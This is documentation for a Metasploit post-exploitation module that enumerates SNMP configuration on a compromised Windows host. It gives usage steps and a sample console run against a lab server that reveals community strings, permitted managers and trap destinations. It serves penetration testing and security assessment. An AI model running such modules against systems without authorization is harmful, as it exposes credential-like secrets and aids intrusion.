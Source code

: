 ## Vulnerable Application

This module will enumerate the SNMP service configuration.

## Verification Steps

1. Start msfconsole
2. Get a session
3. Do: `use post/windows/gather/enum_snmp`
4. Do: `set SESSION <session id>`
5. Do: `run`

## Options

## Scenarios

### Windows Server 2008 (x64)

```
msf > use post/windows/gather/enum_snmp
msf post(windows/gather/enum_snmp) > set session 1
session => 1
msf post(windows/gather/enum_snmp) > run

[*] Running module against WIN-17B09RRRJTG (192.168.200.218)
[*] Checking if SNMP service is installed
[*] 	SNMP is installed!
[*] Enumerating community strings
[*] 
[*] 	Community Strings
[*] 	=================
[*] 	
[*] 	 Name    Type
[*] 	 ----    ----
[*] 	 secret  READ & WRITE
[*] 	 test    READ ONLY
[*] 
[*] Enumerating Permitted Managers for Community Strings
[*] 	SNMP packets are accepted from any host
[*] Enumerating Trap configuration
[*] Community Name: test
[*] 	Destination: 127.0.0.1
[*] 	Destination: snmp.local
[*] Post module execution completed
```
